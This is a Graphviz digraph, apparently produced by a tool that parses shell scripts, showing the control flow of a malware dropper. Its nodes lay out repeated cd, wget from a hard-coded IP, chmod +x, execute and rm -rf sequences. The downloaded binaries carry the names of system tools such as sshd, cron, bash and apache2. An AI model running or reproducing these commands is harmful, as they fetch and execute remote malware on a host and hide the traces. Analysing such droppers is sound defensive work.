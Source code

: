 digraph {
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 10 [label="||,"];
10 [label="wget http://70.39.99.216/ntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x ntpd "];
12 -> 14 [label=";,"];
14 [label="./ntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf ntpd "];
16 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 28 [label="||,"];
28 [label="wget http://70.39.99.216/sshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x sshd "];
30 -> 32 [label=";,"];
32 [label="./sshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf sshd "];
34 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 46 [label="||,"];
46 [label="wget http://70.39.99.216/openssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x openssh "];
48 -> 50 [label=";,"];
50 [label="./openssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf openssh "];
52 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 64 [label="||,"];
64 [label="wget http://70.39.99.216/bash "];
64 -> 66 [label=";,"];
66 [label="chmod +x bash "];
66 -> 68 [label=";,"];
68 [label="./bash "];
68 -> 70 [label=";,"];
70 [label="rm -rf bash "];
70 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 82 [label="||,"];
82 [label="wget http://70.39.99.216/tftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x tftp "];
84 -> 86 [label=";,"];
86 [label="./tftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf tftp "];
88 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 100 [label="||,"];
100 [label="wget http://70.39.99.216/wget "];
100 -> 102 [label=";,"];
102 [label="chmod +x wget "];
102 -> 104 [label=";,"];
104 [label="./wget "];
104 -> 106 [label=";,"];
106 [label="rm -rf wget "];
106 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 118 [label="||,"];
118 [label="wget http://70.39.99.216/cron "];
118 -> 120 [label=";,"];
120 [label="chmod +x cron "];
120 -> 122 [label=";,"];
122 [label="./cron "];
122 -> 124 [label=";,"];
124 [label="rm -rf cron "];
124 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 136 [label="||,"];
136 [label="wget http://70.39.99.216/ftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x ftp "];
138 -> 140 [label=";,"];
140 [label="./ftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf ftp "];
142 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 154 [label="||,"];
154 [label="wget http://70.39.99.216/pftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x pftp "];
156 -> 158 [label=";,"];
158 [label="./pftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf pftp "];
160 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 172 [label="||,"];
172 [label="wget http://70.39.99.216/sh "];
172 -> 174 [label=";,"];
174 [label="chmod +x sh "];
174 -> 176 [label=";,"];
176 [label="./sh "];
176 -> 178 [label=";,"];
178 [label="rm -rf sh "];
178 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 190 [label="||,"];
190 [label="wget http://70.39.99.216/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 208 [label="||,"];
208 [label="wget http://70.39.99.216/apache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x apache2 "];
210 -> 212 [label=";,"];
212 [label="./apache2 "];
212 -> 213 [label=";,"];
}

